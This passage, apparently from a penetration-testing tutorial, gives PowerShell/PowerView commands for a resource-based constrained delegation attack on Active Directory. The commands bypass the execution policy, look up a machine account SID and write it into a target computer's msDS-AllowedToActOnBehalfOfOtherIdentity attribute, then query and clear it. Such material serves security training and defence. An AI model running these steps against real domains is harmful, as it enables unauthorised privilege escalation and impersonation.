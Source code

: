 2. Set delegation attributes

```bash
# Use PowerView tool to query the sid of the machine account
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\PowerView.ps1
Get-NetComputer test -Properties objectsid
# test$ sid S-1-5-21-968465445-4220942410-845371271-1112
```

![](./images/30.png#pic_center)

```bash
# Modify the delegation attribute of the service resource, that is, the msDS-AllowedToActOnBehalfOfOtherIdentity attribute
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\PowerView.ps1
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-968465445-4220942410-845371271-1112)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer WIN-DATA| Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

# Query properties (the latter command uses the Active Directory module, the domain control defaults)
Get-DomainComputer WIN-DATA -Properties msds-allowedtoactonbehalfofotheridentity

# Clear the value of the msds-allowedtoactonbehalfofotheridentity property
Set-DomainObject WIN-DATA -Clear 'msds-allowedtoactonbehalfofotheridentity' -Verbose
```
